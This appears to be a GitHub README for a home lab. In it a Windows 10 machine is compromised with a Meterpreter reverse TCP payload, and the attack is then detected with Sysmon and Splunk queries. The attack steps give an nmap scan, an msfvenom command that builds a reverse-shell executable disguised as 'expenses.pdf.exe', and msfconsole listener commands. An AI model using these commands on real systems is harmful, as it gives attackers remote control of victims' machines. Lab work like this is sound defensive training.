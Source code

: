# Attack and Dectection Lab: Meterpreter Reverse TCP Payload

## Project Overview
This project simulates an attack using the `meterpreter_reverse_tcp` payload generated by `msfvenom`.
The objective of this project is to compromise a Windows 10 machine and detect the attack using Sysmon and Splunk

## Tools used
- **Kali Linux** (attacker machine)
- **Windows 10** (victim machine)
- **Splunk**
- **Sysmon**

## Attack Simulation
Payload: `windows/meterpreter/reverse_tcp` \
Tools used: Metasploit framework (`msfvenom`, `msfconsole`)

### Steps taken:
1. Find an open port using nmap -A -Pn <Victim IP address>
2. Generate the payload using:
`msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<host IP address> lport=<host unused port>
 -f exe -o expenses.pdf.exe`
3. Deliver the payload to the victim machine
4. Establish a Meterpreter session via msfconsole
   To receive the reverse shell, Metasplit's `exploit/multi/handler` module was used to be a listener and capture a connection from the malicious payload
   ```bash
   msfconsole
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set lhost <attacker IP address>
   set lport <open port used in (2)>
   exploit
   ```

## Detection
Tools used: Sysmon, Splunk
### Initial Detection: Unusual Network Connection
Looking at Sysmon log data with EventCode=3 there was an unusual network connection from `<attacker IP address>` to port `<3389> (RDP)`. Indicating a Potential compromise\
Looking at more log evidence using the query of: \
 `index=sysmon EventCode=3 <attacker IP address>` \
A log entry is found where: \
`DestinationIp: <attacker IP address>`\
`sourceIp: <victim IP address>`\
`Image: C:\Users\<User>\Downloads\expenses.pdf.exe`\
Thus indicating a network connection initiated by an unusual executable file from the victim machine which is a strong indicator of a reverse shell or command and control channel\
Using the query of : `index=sysmon EventCode=1 expenses.pdf.exe a Log indicating cmd.exe was ccreated from the parent process of `expenses.pdf.exe`\
using the process_guid it is discovered that this process executed commands such as whoami, ipconfig, net localgroup, net user
